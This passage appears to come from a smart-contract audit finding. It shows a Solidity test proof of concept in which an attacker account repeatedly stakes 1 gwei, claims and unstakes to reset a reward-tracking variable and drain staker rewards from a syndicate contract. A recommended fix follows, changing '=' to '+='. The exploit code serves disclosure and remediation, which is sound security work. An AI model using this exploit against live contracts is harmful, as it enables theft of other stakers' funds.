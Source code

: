 ```solidity

        // at this stage the rewards are expected but let see if we can grab some more...
        assertEq(accountThree.balance, eipRewards / 4);

        // By sending the minimum amount of gwei, I can diminish `sETHUserClaimForKnot` which is used in the calculation in `calculateUnclaimedFreeFloatingETHShare`
        // that eventually drives the staker claims.
        sETHAmounts[0] = 1 gwei;

        // we record the balance of sETH to check eventually that we have not lost anything the invested amount to perform the attack.
        uint256 sETHBalanceBefore = sETH.balanceOf(accountThree);
        sETH.approve(address(syndicate), sETHAmounts[0]);
        // and stake the minimum amount to manipulate `sETHUserClaimForKnot`.
        syndicate.stake(blsPubKeyOneAsArray(), sETHAmounts, accountThree);

        // claim again and check if we collected more. Yes, we doubled...
        syndicate.claimAsStaker(accountThree, getBytesArrayFromBytes(blsPubKeyOne));
        assertEq(accountThree.balance, eipRewards / 2);

        // now we can unstake the invested amount
        syndicate.unstake(accountThree, accountThree, blsPubKeyOneAsArray(), sETHAmounts);
        assertEq(accountThree.balance, eipRewards / 2);
        uint256 sETHBalanceAfter = sETH.balanceOf(accountThree);

        // let see if we can do some more. Yes, we can... So that way we could drain all rewards...
        sETH.approve(address(syndicate), sETHAmounts[0]);
        syndicate.stake(blsPubKeyOneAsArray(), sETHAmounts, accountThree);
        syndicate.claimAsStaker(accountThree, getBytesArrayFromBytes(blsPubKeyOne));
        assertEq(accountThree.balance, (eipRewards / 4) * 3);

        // check that the balance of sETH is as before the attack, we have not lost anything during the attack.
        assertEq(sETHBalanceAfter, sETHBalanceBefore);
    }
}
```
### Recommended Mitigation

`+=` operator instead of `=` in
```solidity
            sETHUserClaimForKnot[_blsPubKey][_onBehalfOf] = (_sETHAmount * accumulatedETHPerFreeFloatingShare) / PRECISION;
```

The logic for keeping the rewards up-to-date is also quite complex in my opinion. The main thing that triggered it for me was the lazy call to `updateAccruedETHPerShares`. Why not keeping the state updated after each operation instead?

### Discussion
